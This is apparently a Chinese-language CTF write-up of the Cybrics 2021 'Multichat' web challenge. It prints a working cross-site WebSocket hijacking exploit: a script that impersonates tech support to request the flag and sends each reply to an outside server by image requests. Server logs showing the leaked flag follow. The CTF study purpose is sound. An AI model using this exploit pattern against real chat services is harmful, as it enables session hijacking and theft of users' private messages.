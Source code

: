 ```yaml
---
layout: post
title: Cybrics 2021 web wp
date: 2021-07-30 09:56 +0800
last_modified_at: 2021-07-22 09:56:00 +0800
tags: [CTF,Web,Write-up]
toc:  true
---
```

## 0x01 Multichat

关键词：Websocket劫持，服务器日志查看

关键知识点：[WebSocket劫持](https://blog.csdn.net/qq_37788558/article/details/86221146)

大致是一个基于WebSocket实现的在线聊天室，通过输入房间号连接进入Websocket聊天室。而最后的flag是通过support界面中的寻求support让拥有tech support的服务器去访问我们精心设计好的网页，而我们设计的网页则可以伪装tech support的身份向admin发送消息从而获得flag。

（当然最后因为学艺不精最终没有解出，是最终借鉴了Sndav的exp完成的复现。）

而在赛后复现的时候，出现了一直验证码不正确的情况，经过排查后知道需要挂代理才可以验证成功= =。

下面给出exp（借鉴了Sndav哥哥的exp）：

```
<script>
    function appendLog(msg){
        document.write(`<img src=http://110.40.143.221/index.php?a=${escape(msg)}></img>`);
    }
    ws=new WebSocket("ws://multichat-cybrics2021.ctf.su/ws");
    ws.onclose=function (evt){
        var item ="";
        if(evt.code===1003){
            item=`Status:${evt.reason}`;
        }else{
            item="Connection closed.";
        }
        appendLog(item);
    };
    ws.onopen=function(evt){
        appendLog("Connented");
        ws.send("Hey, i forgot the flag. Can you remind me?")
    };
    ws.onmessage=function(evt){
        appendLog(evt.data)
    };
</script>
```

其中将exp挂载在vps上就可以，而index.php可以是任意界面，仅为了便于观察服务器访问记录。

![image-20210730104331777](https://raw.githubusercontent.com/Heart-1ess/Heart_1ess-s-CTF-Note/master/blogs/assets/Cybrics1.png)

最终在服务器log中获取到flag：

```
161.35.75.1 - - [30/Jul/2021:09:52:51 +0800] "GET /favicon.ico HTTP/1.1" 404 493 "http://110.40.143.221/exp.html" "Mozilla/5.0 (X11; Linux x86_64; rv:85.0) Gecko/20100101 Firefox/85.0"
161.35.75.1 - - [30/Jul/2021:09:52:51 +0800] "GET /index.php?a=Connented HTTP/1.1" 200 215 "http://110.40.143.221/exp.html" "Mozilla/5.0 (X11; Linux x86_64; rv:85.0) Gecko/20100101 Firefox/85.0"
161.35.75.1 - - [30/Jul/2021:09:52:51 +0800] "GET /index.php?a=Sure%2C%20dude.%20The%20flag%20is%20cybrics%7BPwn3d_CR055_51t3_W3850CK3t_h1jACK1n9%7D HTTP/1.1" 200 215 "http://110.40.143.221/exp.html" "Mozilla/5.0 (X11; Linux x86_64; rv:85.0) Gecko/20100101 Firefox/85.0"
161.35.75.1 - - [30/Jul/2021:09:52:51 +0800] "GET /index.php?a=Hey%2C%20i%20forgot%20the%20flag.%20Can%20you%20remind%20me%3F HTTP/1.1" 200 216 "http://110.40.143.221/exp.html" "Mozilla/5.0 (X11; Linux x86_64; rv:85.0) Gecko/20100101 Firefox/85.0"
```

获取到flag为：

```
cybrics{Pwn3d_CR055_51t3_W3850CK3t_h1jACK1n9}
```

